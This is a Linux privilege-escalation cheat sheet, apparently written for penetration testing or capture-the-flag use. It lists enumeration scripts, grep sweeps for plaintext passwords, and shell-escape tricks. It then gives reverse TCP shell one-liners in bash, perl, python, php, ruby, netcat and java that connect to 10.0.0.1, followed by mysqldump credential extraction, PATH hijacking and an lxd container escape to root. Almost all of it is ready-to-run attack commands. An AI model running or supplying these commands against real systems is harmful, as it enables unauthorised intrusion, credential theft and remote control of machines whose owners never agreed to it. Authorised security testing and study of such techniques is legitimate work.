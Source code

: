 ### [Resources for Linux Privesc]
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

https://github.com/diego-treitos/linux-smart-enumeration

https://github.com/lucyoa/kernel-exploits

### [Running your scripts]
```
chmod +x linpeas.sh
./linpeas > enumData.log

chmod +x ./lse.sh
./lse.sh -l2 >> enumData.log
```

### [Manual enumeration]
```
Enumerating linux OS
cat /etc/os-release

Who else logged in? 
who w last

Enumerating Kernel 
uname -a, env, whoami, history, pwd

Are you in sudoers file? 
sudo -l, cat /etc/sudoers

Other super users? grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'

Able to run the following binaries with current user permissions:
find / -perm -u=s 2>/dev/null

Find files with SUID set
find . -perm /4000 

sudo -l
```

Processes:
top

https://raw.githubusercontent.com/carlospolop/linux-privilege-escalation-awsome-script/master/linpeas.sh
https://github.com/1N3/PrivEsc/tree/master/linux/scripts

Enumeration of plaintext password
grep -rnw '/' -ie 'pass' --color=always
grep -rnw '/' -ie 'DB_PASS' --color=always
grep -rnw '/' -ie 'DB_PASSWORD' --color=always
grep -rnw '/' -ie 'DB_USER' --color=always

### [Generating Public Keys and Xfering to your target]
```
1. ssh-keygen to create your paired keys (private + public)
2. cat your key.pub and copy and paste the public key data over to the host's authorized keys in /home/username/.ssh/authorized_keys
3. ssh into the box using your private key ssh -i privatekey username@IP
```

### [tty shell]
```
python -c 'import pty; pty.spawn("/bin/sh")'
python2 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'
python2 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
(From within IRB)
exec "/bin/sh"
(From within vi)
:!bash
(From within vi)
:set shell=/bin/bash:shell
(From within nmap)
!sh
```
## [reverse TCP Shell's]

#### bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### php
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
```
nc -e /bin/sh 10.0.0.1 1234
```

### mkfifo
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
More information regarding reverse TCP:
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

### [SCP Transfer]
```
Local to Remote
scp file.txt username@IP:/remote/directory
scp -i private_key file.txt username@IP:/remote/directory
(Specify Port)
scp -P 2222 file username@IP:/remote/directory
scp -P port -r folder username@IP:/remote/directory


remote to local
scp remote_username@10.10.0.2:/remote/file.txt /local/directory
scp -r remote_username@10.10.0.2:/remote/folder /local/directory
scp -P port -r remote_username@10.10.0.2:/remote/file.txt /local/directory
scp -P port -r remote_username@10.10.0.2:/remote /local/directory
scp -i privatekey -r remote_username@10.10.0.2:/remote/folder /local/directory
```

### [Extracting Creds from mysql using mysqldump util]
```
Local
mysqldump -u mysql_username -ppassword Database_Name
mysqldump -u mysql_username -ppassword Database table_name

Remotely
mysqldump -h IP -P PORT -u mysql_username -ppassword Database_Name
mysqldump -h IP -P PORT -u mysql_username -ppassword Database_Name Table_Name
```

### [Abusing PATH]
```
Abusing PATH allows you to trick a program into executing your payload instead of the intended program.

/usr/local/sbin/FILE
export PATH=/My/location/of/my/fake/FILE:$PATH

What's inside of FILE? FILE is actually a bash script that executes a payload
cat FILE
whoami

What you should see when the exploit works:
<escalated username> (root *hopefully)
```
More information regarding abusing PATH
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

### [Transferring files using netcat]
```
nc -l -p <port> > out.file

nc -w 3 <IP> 1234 < out.file
```
https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/

### [Exploiting lxd]
```
Creating your image:
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine

Importing your image:
lxc image import ./apline-image --alias myimage

Creating your resource pool and initializing your image:
lxd init
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh

Navigation through mount:
cd /mnt/
cd /mnt/root
```
Resources on lxd

https://www.hackingarticles.in/lxd-privilege-escalation/
